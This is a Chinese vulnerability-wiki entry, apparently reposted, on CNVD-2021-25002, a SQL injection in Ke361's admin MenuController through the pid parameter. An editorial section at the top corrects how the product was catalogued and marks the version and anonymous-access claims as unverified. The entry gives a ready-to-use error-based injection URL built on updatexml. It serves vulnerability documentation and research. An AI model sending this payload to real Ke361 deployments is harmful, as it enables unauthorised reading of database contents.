


## 核对与使用边界

- 明确更正：jcove/ke361 是 Ke361 产品，不能归为 74CMS/骑士CMS 漏洞。本文需要后台菜单管理权限；版本字段只有产品名，尚无发行版/提交及 CNVD 原公告证据，不能写匿名通用 SQLi。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：adminMenupermission;pidinterpolated;MySQLupdatexml;versionunknown

- **事实待核（1）**：产品Ke361被放骑士CMS，源码仓库jcove/ke361与74CMS不同，应独立目录。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：版本字段只有产品名，缺受影响发行/commit及CNVD原始公告。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：SQLWHEREid=1而输入pid需解释转换；源码/响应只有图，最低角色未述。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（4）**：有具体payload但缺修复，不能默认匿名。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Ke361 MenuController.class.php 后台SQL注入漏洞 CNVD-2021-25002

## 漏洞描述

Ke361 MenuController.class.php文件 index() 函数中的pid参数存在 SQL注入漏，导致攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Admin/Controller/MenuController.class.php`



Get 传参 pid 传入SQL语句

```
SELECT `id`,`title`,`pid`,`sort`,`url`,`hide`,`tip`,`group`,`is_dev`,`status` FROM `ke_menu` WHERE (id=1)
```

使用括号闭合语句，构造SQL注入

```
/admin.php?s=/Menu/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
